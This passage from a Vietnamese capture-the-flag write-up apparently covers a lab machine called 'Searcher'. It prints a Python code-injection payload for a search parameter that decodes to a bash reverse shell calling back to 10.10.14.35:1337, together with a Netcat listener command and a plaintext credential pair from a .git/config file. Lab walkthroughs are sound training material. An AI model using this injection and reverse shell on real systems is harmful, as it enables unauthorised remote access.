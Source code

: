 Thực thi code với tư cách là user `svc`.

![alt text](image-12.png)

Để tận dụng điều này lấy một interactive shell, trước tiên khởi động listener `Netcat` trên máy local ở port `1337`.

```
nc -lvnp 1337
```

Sau đó, gửi payload reverse shell được mã hóa Base64 sau đây trong tham số `query` của trang web `Searcher`.

```
')+ str(__import__('os').system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNS8xMzM3IDA+JjE=|base64 -d|bash'))#
```

```
Có thể sử dụng một trang web như revshells () để tạo ra một dữ liệu được mã hóa phù hợp với địa chỉ IP.
```

Có được một reverse shell trên listener `Netcat`.

![alt text](image-13.png)

Có thể lấy flag user tại `/home/svc/user.txt`.

## Privilege Escalation

Bằng cách enum các file trên remote host, có thể xác định cặp thông tin xác thực `cody:jh1usoih2bkjaspwe92` được lưu trữ trong file `/var/www/app/.git/config`. Nó cũng chứa tham chiếu đến tên subdomain `gitea.searcher.htb`.
